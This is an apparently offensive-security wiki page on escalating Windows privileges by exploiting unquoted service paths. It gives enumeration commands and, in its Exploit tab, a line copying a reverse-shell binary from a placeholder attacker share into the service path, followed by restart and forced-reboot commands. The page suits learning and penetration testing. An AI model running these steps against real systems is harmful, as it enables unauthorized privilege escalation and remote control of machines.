 ```yaml
---
description: >-
  MITRE ATT&CK™ Hijack Execution Flow - Path Interception by Unquoted Path -
  Technique T1574.09
---
```


# Unquoted Service Path

## Theory

Windows privilege escalation through unquoted service paths is a common vulnerability that occurs when a service executable file is installed in a directory path that contains spaces but is not surrounded by quotation marks. When Windows starts a service, it looks for the executable file based on the service's configuration. If the path to the executable contains spaces and is not enclosed in quotation marks, Windows may interpret the path incorrectly. In such cases, Windows will try to locate the executable using a combination of the directory names and filenames in the path, which can result in unintended files being executed.

Here's an example to illustrate this, consider we have the following executable path:

```
C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe
```

In order to run SomeExecutable.exe, the system will interpret this path in the following order:

* C:\Program.exe
* C:\Program Files\A.exe
* C:\Program Files\A Subfolder\B.exe
* C:\Program Files\A Subfolder\B Subfolder\C.exe
* C:\Program Files\A Subfolder\B Subfolder\C Subfolder\VulnSvc.exe

## Practice

{% tabs %}
{% tab title="Enumerate" %}
We can use one of following methods to enumerate it:

#### CMD

```powershell
# Method 1
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

#### PowerShell

```powershell
Get-WmiObject win32_service | select Name,PathName,StartMode,StartName | where {$_.StartMode -ne "Disabled" -and $_.PathName -notmatch "`"" -and $_.PathName -notmatch "C:\\Windows"} | Format-List
```

#### PowerUp

Alternatively, we can use `Get-UnquotedService` from [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1).

```powershell
. .\PowerUp.ps1
Get-UnquotedService
```
{% endtab %}

{% tab title="Exploit" %}
You can check if you have write acces to a folder with `icacls`

```powershell
icacls "C:\Program Files\A Subfolder\"
```

If you can write to it, you can place your binary like:

```powershell
copy \\ATTACKING_IP\Share\reverse.exe C:\Program Files\A Subfolder\B.exe  
```

And then, restart the service

```powershell
#Using wmic
wmic service <Service_Name> call stopservice
wmic service <Service_Name> call startservice

#Using net
net stop <Service_Name> && net start <Service_Name>

#Using sc.exe
sc stop <Service_Name>
sc start <Service_Name>
```

{% hint style="success" %}
If we can't restart the service, we may check if it has `StartMode`set to `Auto`.&#x20;

If so, we can reboot the target to trigger the new binary (we will need the `SeShutdownPrivilege`for that).

```powershell
#Exemple of getting StartMode for MySVC
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'MySVC'}

#Reboot
shutdown /r /t 0 
```
{% endhint %}
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---unquoted-service-paths" %}
